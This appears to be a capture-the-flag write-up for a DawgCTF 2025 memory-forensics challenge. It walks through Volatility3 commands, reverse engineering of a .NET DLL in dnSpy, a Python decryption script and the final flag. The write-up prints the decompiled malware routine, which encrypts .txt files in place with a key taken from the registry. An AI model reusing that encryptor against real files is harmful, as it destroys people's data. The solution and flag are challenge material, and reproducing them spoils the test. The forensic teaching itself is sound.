








# [ WriteUp/Notes ] Oh No My Computer  | Forensic - Dawg CTF 2025

## By: Haaloobim as [HCS](https://ctftime.org/team/70159)

## Description 
1. Scenario: 
As an Incident Response (IR) analyst, you've been contacted by the HR department regarding a recently terminated employee. Upon learning of their impending dismissal, the employee reportedly proceeded to hurl their workstation out the window from the 66th floor. Fortunately, no one was injured. Even more fortunately, HR anticipated trouble and notified you in advance. Acting quickly, you were able to capture a memory dump of the employee's machine with the encrypted file believed to contain the bank account information where funds were transferred. Can you recover the destination bank account details from the provided artifacts?<br />

2. Tools :
- [Volatility3](https://github.com/volatilityfoundation/volatility3)
- [dnSpy](https://github.com/dnSpy/dnSpy) 

## How to solve? 

- For this challenge, we are given a `.zip` file that contains memory dump files and an encrypted text file that likely contains the flag for this challenge. From these attachments, we can infer that our task is to identify the malware and figure out how the encryption works. -> [Download File](https://github.com/UMBCCyberDawgs/dawgctf-sp25/tree/main/Oh%20no%2C%20my%20computer!)

- To solve this challenge, we used **Volatility3** to analyze the memory dump. First, we ran the `pslist` and `cmdline` plugins to view all active processes and the commands they executed. However, we didn’t find anything suspicious — just normal Windows processes.





- At this point, we decided to use the `filescan` plugin to list all files captured in the memory dump. From there, we found something interesting located in the user's Desktop directory.



- Normally, a folder like **Windows 7** should not be located on the Desktop, which raised our suspicion. So we decide to dump the `win7-x64.zip` using `dumpfiles` plugin and the `0x0x7ef72e60` physical address. 



```sh
python3 vol.py -f <memory-file> -o <output-dir> windows.dumpfiles --physaddr 0x7ef72e60
```

- After dumping and extracting the `.zip` file, we found three suspicious files: `cma.exe`, `cma.dll`, and `cma.pdb`. After investigating each file using VirusTotal, we identified that `cma.dll` is the one we need to analyze further.

- By running the `file` command on `cma.dll`, we discovered that it is an `x86-64 Mono/.NET assembly`. Therefore, we used **dnSpy** to reverse engineer the DLL and analyze the encryption algorithm it implements.



- So in that dnSpy, we know that the malware have 2 important function, `Main` and `QiDlvAfIm`:

```c#
private static void Main(string[] args)
{
	string ms = (string)Registry.GetValue("HKEY_LOCAL_MACHINE\\SECURITY\\Apple\\Sause", "sec", false);
	string[] files = Directory.GetFiles(".");
	foreach (string f in files)
	{
		string[] a2 = f.Split(".", StringSplitOptions.None);
		string t = a2[1];
		string[] array2 = a2;
		string t2 = array2[array2.Length - 1];
		bool flag = t.Equals(".txt") && !t2.Equals(".enc");
		if (flag)
		{
			byte[] fb = File.ReadAllBytes(f);
			byte[] sb = Encoding.UTF8.GetBytes(ms);
			sb = SHA256.Create().ComputeHash(sb);
			byte[] eb = Program.QiDlvAfIm(fb, sb);
			File.WriteAllBytes(f, eb);
		}
	}
}
```

```c#
public static byte[] QiDlvAfIm(byte[] fileBytes, byte[] init)
{
	byte[] result;
	using (MemoryStream memoryStream = new MemoryStream())
	{
		using (RijndaelManaged rijndaelManaged = new RijndaelManaged())
		{
			rijndaelManaged.KeySize = 256;
			rijndaelManaged.BlockSize = 128;
			Rfc2898DeriveBytes rfc2898DeriveBytes = new Rfc2898DeriveBytes(init, init, 1000);
			rijndaelManaged.Key = rfc2898DeriveBytes.GetBytes(rijndaelManaged.KeySize / 8);
			rijndaelManaged.IV = rfc2898DeriveBytes.GetBytes(rijndaelManaged.BlockSize / 8);
			rijndaelManaged.Mode = CipherMode.CBC;
			using (CryptoStream cryptoStream = new CryptoStream(memoryStream, rijndaelManaged.CreateEncryptor(), CryptoStreamMode.Write))
			{
				cryptoStream.Write(fileBytes, 0, fileBytes.Length);
				cryptoStream.Close();
			}
			result = memoryStream.ToArray();
		}
	}
	return result;
}
```

- In conclusion, this malware encrypts files that end with `.txt` but not those ending with `.enc`. Most importantly, it retrieves a value from the following registry path: `HKEY_LOCAL_MACHINE\\SECURITY\\Apple\\Sause`, which is used as the key and IV for the encryption.

- So, the first step is to locate the value from that registry path.

- Our first approach was to dump all the registry entries using the `filescan` plugin and analyze them using Registry Explorer, but it resulted in nothing because the file data at the dumped address couldn't be found.

- Our second approach was to dump `NTUSER.dat`, as it stores all the registry values modified by the user. However, similar to the previous approach, the data couldn't be found.

- Our final approach was to use the `windows.registry.printkey` plugin to print the captured registry directly from memory.


```sh
python3 vol.py -f <file>  windows.registry.printkey
```



- So we know that `SECURITY\Apple` was captured in the memory and we can continue dumping the value of that registry. After this we need `--offset` and `--key` parameter to specify the exact registry that we wanna dump. 

- So the final command should looks like this: 

```sh
python3 vol.py -f <file>  windows.registry.printkey --offset 0xf8a000e97010 --key 'Apple\Sause'
```



- After we know the registry data, we just need to make the solve script to decrypt the encrypted file the code should be look like this: 

```py
import hashlib
from Crypto.Cipher import AES
from Crypto.Protocol.KDF import PBKDF2

REGISTRY_VALUE = "by3_by3_c0mput3r"
INPUT_FILE = "bank_account.txt.enc"
OUTPUT_FILE = "bank_account.txt"    

def decrypt_aes256cbc(encrypted_data, password_bytes):
    hashed = hashlib.sha256(password_bytes).digest()
    key_iv = PBKDF2(hashed, hashed, dkLen=32 + 16, count=1000)
    key = key_iv[:32]
    iv = key_iv[32:]

    cipher = AES.new(key, AES.MODE_CBC, iv)
    decrypted = cipher.decrypt(encrypted_data)

    pad_len = decrypted[-1]
    return decrypted[:-pad_len]

def main():
    password_bytes = REGISTRY_VALUE.encode("utf-8")

    try:
        with open(INPUT_FILE, "rb") as f:
            encrypted_data = f.read()

        decrypted = decrypt_aes256cbc(encrypted_data, password_bytes)

        with open(OUTPUT_FILE, "wb") as f:
            f.write(decrypted)

        print(f"[+] Decrypted: {INPUT_FILE} → {OUTPUT_FILE}")
    except Exception as e:
        print(f"[!] Failed to decrypt {INPUT_FILE}: {e}")

if __name__ == "__main__":
    main()
```



#### Flag:
> Flag: `DawgCTF{R121145145_A00001966}`


